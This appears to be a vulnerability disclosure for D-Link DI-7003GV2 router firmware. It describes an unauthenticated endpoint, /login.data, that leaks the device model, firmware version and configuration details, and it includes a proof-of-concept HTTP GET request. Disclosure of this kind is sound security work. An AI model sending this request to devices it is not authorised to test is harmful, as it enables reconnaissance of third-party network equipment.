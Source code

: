 # Overview

- Manufacturer's website information：https://www.dlink.com/
- Firmware download address ：http://www.dlink.com.cn/techsupport/download.ashx?file=7828

# Affected version

DI-7003GV2-24.04.18D1 R(68125)

# Vulnerability description

The D-Link DI-7003GV2 firmware version 24.04.18D1 contains an information disclosure vulnerability in the `/login.data` endpoint. This unauthenticated interface allows remote attackers to retrieve sensitive device information, including the model, firmware version, and various configuration details such as the status of mini programs and logo settings.

# Vulnerability details

The processing function for `login.data` interface is `sub_419D04`.

![图 0](img/fcf2f874958d18541ce0c2ed5ff215bdb901cdd70dcc2cd6601d8e23bd2a9943.png)  

The `sub_419D04` function will output sensitive information such as the device model and version.

![图 1](img/42e970f628b98d289843ea9c5972c9ab639d991f2d876eae0bad938c8d456015.png)  


# Poc

```http
GET /login.data HTTP/1.1
Host: 192.168.140.240
Content-Length: 0
Cache-Control: max-age=0
Origin: http://192.168.140.240
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36 Edg/135.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.140.240/login.html
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Connection: keep-alive
```

![图 2](img/fa3943756660d874b097f02a4dcd9c680156f1f520c2ecb5485a451732f60d9f.png)  
